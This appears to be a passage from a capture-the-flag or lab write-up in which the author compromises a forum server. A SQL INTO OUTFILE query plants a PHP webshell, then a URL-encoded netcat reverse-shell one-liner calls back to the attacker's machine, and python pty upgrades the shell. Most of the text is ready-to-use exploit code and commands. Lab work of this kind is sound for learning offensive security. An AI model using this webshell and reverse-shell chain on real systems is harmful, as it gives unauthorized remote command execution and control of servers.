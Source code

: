 We can upload a webshell on the server using a SQL request:
```sql

select 1,2,'<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>',4 into OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

We know the web pages are often located in the `/var/www/` folder.

__Now we can access our webshell !__

We can enter commands by adding `?cmd=<command>` at the end of the url.

This is not really convenient, so we are going to setup a reverse shell.

We used https://www.revshells.com/ to generate a reverse shell command : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.56.101 6942 >/tmp/f`

We need to encode it in the url format (using https://www.urlencoder.org/fr/):`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.56.101%206942%20%3E%2Ftmp%2Ff`


Then the reverse shell can be set up using `nc`:
```bash
# First we listen on our Kali:
nc -lvnp 6942

# Then we send the command to the server by visiting:
https://192.168.56.102/forum/templates_c/backdoor.php?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|bash%20-i%202%3E&1|nc%20192.168.56.101%206942%20%3E/tmp/f
```

![alt text](./ressources/image-3.png)

__We now succesfully have a reverse shell on the server.__

We can `enable tty mode` with the following python command: `python -c 'import pty; pty.spawn("/bin/bash")'`
